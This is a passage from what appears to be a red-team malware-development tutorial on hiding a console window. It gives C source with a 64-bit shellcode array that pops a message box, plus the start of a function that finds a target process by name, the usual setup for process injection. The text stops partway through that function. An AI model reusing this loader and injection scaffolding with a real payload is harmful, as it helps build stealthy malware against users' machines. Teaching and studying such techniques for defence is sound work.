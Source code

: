 # Hiding Console

### FreeConsole

<pre class="language-c"><code class="lang-c">#include &#x3C;windows.h>
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>
#include &#x3C;string.h>
#include &#x3C;tlhelp32.h>

// MessageBox shellcode - 64-bit
unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
  0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x00, 0x00, 0x00,
  0x00, 0x3e, 0x48, 0x8d, 0x95, 0x1a, 0x01, 0x00, 0x00, 0x3e, 0x4c, 0x8d,
  0x85, 0x35, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x07, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6,
  0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x48, 0x69, 0x20, 0x66, 0x72,
  0x6f, 0x6d, 0x20, 0x52, 0x65, 0x64, 0x20, 0x54, 0x65, 0x61, 0x6d, 0x20,
  0x4f, 0x70, 0x65, 0x72, 0x61, 0x74, 0x6f, 0x72, 0x21, 0x00, 0x52, 0x54,
  0x4f, 0x3a, 0x20, 0x4d, 0x61, 0x6c, 0x44, 0x65, 0x76, 0x00
};
unsigned int payload_len = 334;


int FindTarget(const wchar_t* procname) {

    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;
    wchar_t procnameLower[260];
    wchar_t exeNameLower[260];
